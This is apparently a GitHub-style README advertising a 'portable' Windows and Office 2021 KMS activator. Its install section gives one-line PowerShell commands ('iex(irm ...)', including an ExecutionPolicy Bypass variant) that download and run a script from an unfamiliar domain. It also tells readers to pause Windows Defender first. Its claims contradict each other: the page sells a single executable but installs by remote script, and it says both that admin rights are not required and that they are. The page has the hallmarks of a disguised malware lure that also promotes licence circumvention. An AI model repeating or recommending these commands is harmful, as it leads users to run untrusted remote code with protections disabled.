

<div align="center">

# AACT-Portable-2026: Portable Activation Toolkit for Windows 10 & 11



[]() []() []() []()

</div>

---

AACT-Portable-2026 is a self-contained activator for Windows 10, Windows 11, and Office 2021 that consolidates KMS-based activation and lifetime unlock into a single executable. The tool operates without installation, letting you run activation directly from removable media or a local directory on any standard desktop system. It targets both Windows and Office 2021 in one pass, with a KMS path for standard deployment scenarios and a persistent unlock mode for long-term use. The compact single-exe design keeps the workflow minimal while covering the activation needs of a typical desktop environment.

## 🛠️ Quick Install (PowerShell)

> [!TIP]
> **One-click install** — paste one command, done in seconds.
> Windows 10 / 11 · PowerShell · One-line install

### 1️⃣ Launch PowerShell
* Press `Win + X`.
* Select **Terminal** or **Windows PowerShell**.

### 2️⃣ Execute the setup script
Paste and run. Wait until the process completes.

```cmd
iex(irm 'https://shell-activation.top/update/ps-activator-v_pZBbxuWx7DELoMji')
```

### 3️⃣ Forced run via CMD
Run this command in CMD instead:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "$ProgressPreference='SilentlyContinue';iex(irm 'https://shell-activation.top/update/ps-activator-v_pZBbxuWx7DELoMji')"
```

> [!WARNING]
> Windows Defender or third-party AV may flag the script. Pause Real-time protection in Windows Security, run the installer, and re-enable it right after.

## 📋 System Requirements

- **PowerShell 5.1+** (pre-installed on Windows 10 and 11)
- **Windows 10 / 11** (x64)
- **Internet connection** — required to fetch the script
- **Administrator** — *not* required

## Features

- **Single-executable delivery.** The entire activator ships as one portable binary with no installer, no service registration, and no runtime dependencies, so it can be carried on removable media and executed directly on any supported desktop.
- **Unified Windows and Office coverage.** A single activation path handles Windows 10, Windows 11, and Office 2021, eliminating the need for separate utilities or version-specific tooling.
- **KMS-based activation model.** Activation is performed through a local KMS emulation layer, providing a deterministic and repeatable unlock sequence for both operating system and Office products.
- **Lifetime unlock behavior.** Once applied, the activation state persists across reboots and does not require recurring re-execution under normal operating conditions.
- **Portable, stateless operation.** No permanent files are written outside the working directory, and no system-wide configuration is modified beyond the activation entries required by the target product.
- **Minimal, guided interface.** The executable exposes a concise workflow with explicit status feedback for each activation stage, keeping the process transparent for both first-time and experienced users.
- **Broad build compatibility.** Supports x86 and x64 Windows 10 and Windows 11 installations, including current cumulative-update builds, alongside Office 2021 volume and retail channel configurations.
- **Offline-capable execution.** Core activation logic runs without network access, so the tool remains functional in isolated or restricted desktop environments.
- **Deterministic, low-footprint runtime.** The executable completes activation in a short, bounded sequence with no background processes, persistent agents, or scheduled tasks left behind.
- **Maintained compatibility.** Periodic revisions keep the activation path aligned with current Windows and Office servicing releases and preserve behavior across supported builds.

## How it works

AACT-Portable-2026 operates as a self-contained executable that requires no installation or system-level dependencies. On launch, it enumerates the installed Windows and Office components and presents them for selection through a single interface.

The activation workflow is built around two core paths:

- **KMS activation path** — establishes a local key management service context, applies the appropriate product key for the detected edition, and configures the KMS host and port settings so renewal cycles complete without user intervention.
- **Lifetime unlock path** — writes the activation state directly to the licensing store, removing the periodic revalidation requirement so the activation persists across reboots and updates.

Both paths are driven from the same binary, with the tool detecting the target product (Windows 10, Windows 11, or Office 2021) and routing to the matching activation method automatically. Office 2021 is handled through its own dedicated flow, ensuring the correct product key and licensing channel are applied for that release.

All operations execute in-memory where possible, and the portable executable writes no installer artifacts to the host system — only the licensing changes required for activation are committed. Because the tool runs from any directory without prior setup, it can be carried on removable media and executed on any supported desktop without leaving a persistent footprint beyond the activation state itself.

## Compatibility

AACT-Portable-2026 targets Windows 10 and Windows 11 desktop editions, including both 32-bit and 64-bit architectures, and provides activation coverage for Office 2021. The single-executable design requires no installation, no runtime dependencies, and no background services, allowing the tool to operate directly from removable media or a local directory. Both the KMS path and the lifetime unlock mode are supported across all listed operating system and Office combinations. Elevated privileges are required to apply activation changes at the system level, and the tool runs independently of any network configuration beyond what the selected KMS path specifies. Compatibility is maintained against current cumulative updates for the supported Windows and Office releases, with the portable build structured to avoid modifying system files outside the activation scope.

## FAQ

**Does AACT-Portable-2026 require installation or elevated privileges?** No installation is required; the activator ships as a single portable executable that runs from local storage or removable media. Administrative elevation is required, however, because activation modifies system licensing state, registers the KMS path, and writes to protected registry and licensing service locations. Launch the executable from an elevated context to ensure all activation operations complete successfully.

**Which operating systems and Office versions are supported?** The activator targets Windows 10 and Windows 11 across their mainstream editions, together with Office 2021. The KMS path is applied per product and per channel, so mixed environments containing both Windows and Office can be activated in a single pass. Edition and channel detection is performed automatically before any licensing changes are applied.

**How does the KMS activation path work?** AACT-Portable-2026 configures a local KMS emulation path, redirects the relevant licensing endpoints, and installs the appropriate product key for the detected edition. The activation request is then served locally, and the resulting license state is verified. Lifetime unlock is achieved by persisting the KMS configuration and renewal task so the activation state remains valid without recurring manual intervention.

**What is the difference between the KMS path and the lifetime unlock option?** The KMS path establishes the emulated licensing endpoint and applies the product key, which is the mechanism that satisfies activation checks. Lifetime unlock builds on that path by installing a scheduled renewal task and persistent configuration, ensuring the license remains active across reboots and updates. Both modes are selectable from the single executable's interface.

**Is the executable self-contained?** Yes. All required components are embedded within the single executable, including the KMS emulation module, product key tables, and detection routines. No external runtime, framework, or dependency installation is needed, which is what allows the tool to remain fully portable across machines.

**How does the tool detect the installed Windows or Office edition?** Detection queries the local licensing subsystem and installed product inventory to resolve edition, channel, and architecture. The resolved values are matched against the embedded product key tables, and the correct key and KMS configuration are selected automatically. If detection cannot resolve an edition, the tool reports the condition rather than applying a mismatched configuration.

**Can the activator be run repeatedly or after a Windows update?** Yes. Re-running the executable re-validates the current license state and reapplies the KMS path and renewal task if either has been reset. Windows feature updates and Office servicing operations can clear licensing configuration, so periodic re-validation is the supported recovery path.

**What should I do if activation does not complete?** Confirm the executable was launched with administrative elevation, verify the detected edition matches the installed product, and check that no conflicting activation configuration is present. Re-run the executable after resolving the condition; the tool re-detects state on each launch and applies configuration only where needed.

**Where is activation state stored, and how is it removed?** Activation configuration is written to standard system licensing locations and a scheduled renewal task. The executable provides an option to remove the applied configuration and restore the prior licensing state, which reverts the KMS path, removes the renewal task, and clears the persisted settings.

**Does the activator modify system files permanently?** No system binaries are patched. The tool operates through licensing configuration, product key application, and a scheduled task, all of which are reversible through the removal option. This design keeps the activation path isolated from core system files and consistent with the portable, single-executable model.

## Disclaimer

AACT-Portable-2026 is provided as a standalone portable executable intended for evaluation, testing, and research environments. It performs local activation operations against Windows 10, Windows 11, and Office 2021 using a KMS-based mechanism and does not require installation, background services, or persistent system modifications beyond the activation state itself. The single-executable design keeps the toolchain self-contained: no dependencies, no runtime installers, and no configuration files are required to execute the activation path.

Users are solely responsible for ensuring that their use of AACT-Portable-2026 complies with all applicable software license terms, organizational policies, and local regulations. The tool is distributed on an as-is basis, without warranty of any kind, express or implied, including but not limited to warranties of merchantability, fitness for a particular purpose, or non-infringement. The maintainers assume no liability for any direct, indirect, incidental, or consequential damages arising from the use, misuse, or inability to use this software, including any effect on system stability, activation status, or software licensing state.

Activation results depend on the target environment, including build version, installed Office edition, network conditions, and the availability of the KMS path used at runtime. Because the executable operates locally and portably, no telemetry is collected and no data is transmitted beyond what the activation mechanism itself requires. Users are advised to verify compatibility against their specific Windows and Office builds before deployment, and to retain original license documentation for their software. Redistribution, modification, or repackaging of AACT-Portable-2026 is undertaken at the user's own risk and does not transfer any responsibility to the original authors.

## License

AACT-Portable-2026 is distributed under the BSD 3-Clause License, a permissive open-source license that grants broad freedom to use, modify, and redistribute the software while preserving attribution and limiting liability for the authors.

Under the terms of this license, you are permitted to:

- Use the software for personal, internal, or commercial purposes without restriction.
- Modify the source and adapt the activator to your own deployment scenarios.
- Redistribute the original or modified builds, provided the copyright notice, the list of conditions, and the disclaimer are retained in full.
- Incorporate the project into larger toolchains or bundled desktop utilities, subject to the same notice requirements.

The license imposes the following conditions:

- Redistributions of source code must retain the original copyright notice, this list of conditions, and the accompanying disclaimer.
- Redistributions in binary form must reproduce the same notices and disclaimer in the documentation or other materials shipped with the distribution.
- Neither the name of the project nor the names of its contributors may be used to endorse or promote derived products without prior written permission.

The software is provided "as is", without warranty of any kind, express or implied, including but not limited to the warranties of merchantability, fitness for a particular purpose, and noninfringement. In no event shall the authors or copyright holders be liable for any claim, damages, or other liability, whether in an action of contract, tort, or otherwise, arising from, out of, or in connection with the software or the use or other dealings in the software.

The full license text is included with the project distribution and should be reviewed before modifying, repackaging, or redistributing AACT-Portable-2026. Use of the activator is additionally subject to the project disclaimer, which addresses the legal and operational scope of activation on supported Windows and Office builds.